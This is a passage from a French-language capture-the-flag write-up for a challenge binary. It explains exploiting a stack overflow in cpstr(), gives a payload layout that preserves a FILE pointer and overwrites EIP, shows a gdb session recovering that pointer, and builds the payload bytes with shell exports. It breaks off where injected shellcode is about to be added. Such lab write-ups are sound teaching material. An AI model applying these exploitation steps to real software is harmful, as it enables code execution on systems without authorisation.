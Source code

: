   		return 0;
	}
	
Visiblement dans ce challenge on a un stack overflow classique dans cpstr(),mais en plus il faut faire attention à préserver certaines valeurs sur la pile. En effet dans Init(), on peut voir un:

	fclose(file);
	return init;

Si on ne fait pas attention à ce que `file' ait une valeur correcte, l'appel à fclose() va faire crasher l'application avant le return, et nous empêcher d'exploiter l'overflow.

Typiquement le contenu du fichier devrait alors être de cette forme:



"USERNAME=" [JUNK pour remplir le buffer] ... [file pointer] ... [ new eip ]


Avec `new eip qui doit écraser $eip, et sauter dans du code qu'on veut donc faire exécuter.

Comme notre overflow va écraser les autres éléments de la structure Init, on va faire en sorte de mettre des valeurs qui facilitent le debug: -1 pour l'uid et -2 pour le pid.

	$ mkdir /tmp/prout && export binpath=/tmp/prout/foo.bin
	$ export uid="\xff\xff\xff\xff"
	$ export pid="\xfe\xff\xff\xff"

On va faire tourner le programme dans gdb afin de savoir la valeur retournée par fopen(), pour la restaurer avant le fclose():

	$ gdb ./prog
	[...]
	gdb$ disas Init
	[...]
   		0x080485bd <+20>:    mov    DWORD PTR [esp+0x4],edx
   		0x080485c1 <+24>:    mov    DWORD PTR [esp],eax
   		0x080485c4 <+27>:    call   0x8048480 <fopen@plt>
   		0x080485c9 <+32>:    mov    DWORD PTR [ebp-0x1c],eax
	[...]

On met donc un breakpoint juste apres le _fopen()_ pour connaître la valeur du pointeur (en général les valeurs de retour sont dans $eax, et la ligne +24 nous le confirme, puisqu'on empile le contenu de $eax pour passer cette valeur à _fclose()_:

	gdb$ b *0x080485c9
	Breakpoint 1 at 0x80485c9: file binary10.c, line 45.
	gdb$ r /tmp/prout/foo.bin
	[...]
	Breakpoint 2, 0x080485c9 in Init (filename=0xbffffc80 "/tmp/prout/foo.bin") at binary10.c:45
	45      in prog.c
	gdb$ i r eax
	eax            0x804b008        0x804b008

On est content, on a la valeur du FILE * qu'on désire sauver:

	$ export fileptr="\x08\xb0\x04\x08"

Ensuite on exporte notre shellcode (on peut en trouver partout sur le net)...
